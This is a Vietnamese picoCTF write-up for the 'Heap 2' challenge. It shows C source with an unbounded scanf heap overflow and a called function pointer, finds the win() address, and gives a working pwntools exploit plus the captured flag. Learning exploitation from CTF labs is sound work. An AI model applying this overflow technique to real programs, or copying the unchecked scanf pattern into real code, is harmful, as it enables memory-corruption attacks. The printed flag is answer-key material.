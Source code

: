# Heap 2
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.
Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Giao diện của challenge này nhìn giống như bài `heap_0` và bài `heap_1`, và hãy nhìn vào hàm `check_win()`:

``` c
void check_win() { ((void (*)())*(int*)x)(); }
```

Nôm na là hàm này sẽ lấy 4 byte đầu tại vùng nhớ mà `x` trỏ đến, ép thành địa chỉ hàm và gọi hàm tại địa chỉ đó. 

$=>$ **Nếu vùng nhớ mà `x` trỏ đến chứa địa chỉ hàm `win()`, thì hàm `win()` sẽ được gọi là ta có flag.**

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ hàm `win()` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![image](https://github.com/user-attachments/assets/18553ad9-40fa-4f54-93ed-d4aa01e16e62)

Ta sẽ sử dụng GDB để tìm địa chỉ hàm `win()` như sau:

![image](https://github.com/user-attachments/assets/c9729603-d41d-4699-a748-9d2595a2acf2)

$->$ Ta có địa chỉ hàm `win()` là: `0x00000000004011a0`.

Giống như bài `heap_0` và bài `heap_1`, offset tính từ địa chỉ mà input bắt đầu được nhập vào đến địa chỉ mà con trỏ `x` trỏ đến là 32.

![image](https://github.com/user-attachments/assets/82f08ccc-bc9f-48ce-8dd9-b95bdf709aad)

Ta nhập 32 ký tự `a` rồi sau đó nhập địa chỉ của hàm `win()` (theo định dạng little endian).

``` python
from pwn import *

#p = process('./chall')
p = remote('mimas.picoctf.net', 58675)
write = b'2'
flag = b'4'
payload = 32 * b'a'
payload += b'\xa0\x11\x40\x00' # địa chỉ hàm win() theo định dạng little endian
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{and_down_the_road_we_go_904e3edd}
```
